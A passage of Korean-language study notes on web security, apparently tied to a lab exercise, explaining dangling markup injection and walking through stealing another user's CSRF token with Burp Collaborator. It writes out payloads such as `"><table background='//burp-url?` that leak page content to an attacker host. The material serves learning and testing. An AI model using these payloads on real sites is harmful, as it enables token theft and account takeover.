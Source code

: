 댓글을 본 사람들은 이메일을 바꾸는 POST요청을 보내게 된다. 



## 3.5. Dangling markup injection

### 3.5.1. 개요

Dangling(기다리게 하다.) 

예를 들어 `<img src='//jimin.com?` 이렇게 dangling상태로 삽입을 한다. 
그럼 응답을 위해 브라우져가 파싱을 할때 src를 닫기위해 `'`를 찾을 것이다. 

그리고 그걸 찾기 전까지의 모든 내용이 URL query string에 포함되어 jimin.com 공격자 서버에 전달이 될 것이다. 

따라서 공격자는 유저의 페이지 정보를 볼 수 있게 된다.

### 3.5.2. 공격

이메일 변경을 위해 입력한 input의 값이,  
URL 파라미터를 통해서 전달됨을 확인한다. 

그리고 그 값이 input태그의 value로 설정이 됨.

따라서 URL을 통해서 XSS공격이 가능하다.

목표는 다른 유저의 input 태그의 csrf 속성값을 알아내는 것.

요청을 보내도록 하기 위해서는 내 사이트의 URL이 포함된 dangling태그를 삽입하고 그 URL을 클릭하게 한다. 

그걸 위해서 burp collaraborator로 요청을 받을 URL을 얻고, 
`"><table background='//burp-url?` 같은 dangling코드를 URL query string에 삽입한다. 

그리고 이걸 다른 유저에게 보낸다. 
그럼 collarabrator에서 pull하여 요청을 볼 수 있게 된다. 

요청 URL qeury string에는 dangling으로 인해 csrf 값까지 포함되어 있다. 

<img src='./images/theory/xss-6.png'>
